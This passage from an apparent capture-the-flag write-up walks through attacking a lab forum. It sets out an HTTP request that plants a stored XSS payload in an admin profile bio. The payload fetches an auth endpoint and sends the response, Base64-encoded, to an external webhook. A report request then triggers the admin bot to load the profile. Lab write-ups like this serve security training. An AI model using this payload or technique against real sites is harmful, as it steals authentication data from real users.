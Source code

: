 Request:

```
POST /api/profile HTTP/1.1
Host: 83.136.255.39:33887
Content-Type: application/json
Content-Length: 197
Cookie: session=Fe26.2*1*16ff6a805f9de48a36e3d9e33e820e6235446e56b7567c6c5a24295356b9c801*...

{
  "username": "admin",
  "email": "admin@volnaya-forums.htb",
  "bio": "<img src=x onerror=\"fetch('/api/auth').then(r => r.text()).then(d => fetch('https://webhook.site/ddc68494-428e-4174-855d-f6d8bd631c18/?d=' + btoa(d)))\">"
}
```

This exploits:

- **IDOR**: Specifying the admin’s `username` and `email` without authorization.
- **Broken Access Control**: Modifying any user’s bio.
- **XSS**: Injecting JavaScript into the `bio` field.
- **CORS Bypass**: Using a webhook to receive data, as direct cross-origin requests to our server would be blocked.

### 6. Triggering the Bot
---
We submit a report to make the bot visit `/profile`:

```
POST /api/report HTTP/1.1
Host: 83.136.255.39:33887
Content-Type: application/json
Content-Length: 63
Cookie: session=Fe26.2*1*16ff6a805f9de48a36e3d9e33e820e6235446e56b7567c6c5a24295356b9c801*...

{"postThread":"/profile","reason":"Netrunners"}
```

The bot:

- Logs in as admin.
- Visits `http://127.0.0.1:1337/profile`.
- Loads the admin’s bio, triggering the XSS.
- Fetches `/api/auth` and sends the Base64-encoded response to our webhook.

### 7. Receiving and Decoding the Flag
---
The webhook receives the Base64-encoded `/api/auth` response: